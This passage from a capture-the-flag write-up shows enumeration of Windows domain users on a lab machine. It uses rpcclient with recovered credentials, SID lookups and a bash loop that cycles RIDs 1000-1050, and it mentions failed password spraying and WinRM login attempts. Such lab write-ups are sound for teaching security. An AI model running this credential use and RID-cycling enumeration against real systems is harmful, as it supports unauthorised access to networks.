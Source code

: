 I would go back and re-run `crackmapexec`, but I already saw all three passwords fail with the two other users. I’ll also try to connect over WinRM with these creds, but it fails.

#### rpcclient

`IPC$` is a share [used for interprocess communications](http://smallvoid.com/article/winnt-ipc-share.html). Typically `IPC$` is known for accecpting null (unauthenticated) sessions, but in this case, I needed credentials to read from it.

As I can read `IPC$`, I can connect with `rpcclient`:

```

root@kali# rpcclient -U 'hazard%stealth1agent' 10.10.10.149
rpcclient $> 

```

I can use the `lookupnames` command to get the SIDs of the users I know:

```

rpcclient $> lookupnames hazard
hazard S-1-5-21-4254423774-1266059056-3197185112-1008 (User: 1)
rpcclient $> lookupnames administrator
administrator S-1-5-21-4254423774-1266059056-3197185112-500 (User: 1)
rpcclient $> lookupnames rout3r
result was NT_STATUS_NONE_MAPPED
rpcclient $> lookupnames admin
result was NT_STATUS_NONE_MAPPED

```

I can also look up accounts by SID:

```

rpcclient $> lookupsids S-1-5-21-4254423774-1266059056-3197185112-1008
S-1-5-21-4254423774-1266059056-3197185112-1008 SUPPORTDESK\Hazard (1)

```

I’ll brute force across a bunch of SIDs in a loop to get a list of all users. If I run `rpcclient` with a `-c`, I can offer a command from the command line:

```

root@kali# rpcclient -U 'hazard%stealth1agent' 10.10.10.149 -c 'lookupsids S-1-5-21-4254423774-1266059056-3197185112-1000'
S-1-5-21-4254423774-1266059056-3197185112-1000 *unknown*\*unknown* (8)

```

I’ll start at 1000 and work up to 1050, using `grep` to remove the unknowns:

```

root@kali# for i in {1000..1050}; do rpcclient -U 'hazard%stealth1agent' 10.10.10.149 -c "lookupsids S-1-5-21-4254423774-1266059056-3197185112-$i" | grep -v unknown; done
S-1-5-21-4254423774-1266059056-3197185112-1008 SUPPORTDESK\Hazard (1)
S-1-5-21-4254423774-1266059056-3197185112-1009 SUPPORTDESK\support (1)
S-1-5-21-4254423774-1266059056-3197185112-1012 SUPPORTDESK\Chase (1)
S-1-5-21-4254423774-1266059056-3197185112-1013 SUPPORTDESK\Jason (1)

```
